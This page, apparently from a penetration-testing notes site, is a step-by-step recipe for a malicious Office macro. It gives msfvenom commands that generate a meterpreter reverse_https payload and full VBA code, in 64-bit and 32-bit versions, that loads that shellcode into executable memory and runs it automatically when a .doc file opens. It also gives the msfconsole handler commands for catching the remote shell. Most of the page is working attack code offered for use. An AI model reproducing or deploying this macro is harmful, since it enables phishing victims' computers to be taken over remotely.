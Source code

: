 ```yaml
---
title: VBA Shellcode
layout: default
parent: Client Side Execution
nav_order: 3
---
```


The theory is always to:
1. Allocate memory with `VirtualAlloc(0, sizeOfShellcodeArray, &H3000, &H40)`
2. Copy shellcode byte by byte into memory location with `RtlMoveMemory(destination, source, length)`
3. Execute with `CreateThread(0, 0, startAddress, 0, 0, 0)`. startAddress here is the return value of `VirtualAlloc()` in step 1.

# For 64-bit!
[32-bit here](#for-32-bit)

First prepare the shellcode:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f vbapplication
```

Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As LongPtr
  Dim res As LongPtr
  buf = Array(YOUR ARRAY HERE)
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter
  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```

Prepare for the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```

# For 32-bit!
[64-bit here](#for-64-bit)

First prepare the shellcode:

```
msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f vbapplication
```

Next in Microsoft Word do this:

* Go to View, Select Macros
* **Very Important** Under Macros In, select the current document name (Document1 if unsaved)
* Name the macro AutoOpen (If you change this you need to change multiple references below)
* Save the document as \*.doc (\*.docx will not run macro)
* Change function name for Excel. For example, Document_Open() is called Workbook_Open() in Excel

```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
  Dim buf As Variant
  Dim addr As LongPtr
  Dim counter As Long
  Dim data As Long
  Dim res As Long
  buf = Array(YOUR ARRAY HERE)
  addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
  For counter = LBound(buf) To UBound(buf)
    data = buf(counter)
    res = RtlMoveMemory(addr + counter, data, 1)
  Next counter
  res = CreateThread(0, 0, addr, 0, 0, 0)
End Function

Sub Document_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub
```

Prepare for the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```
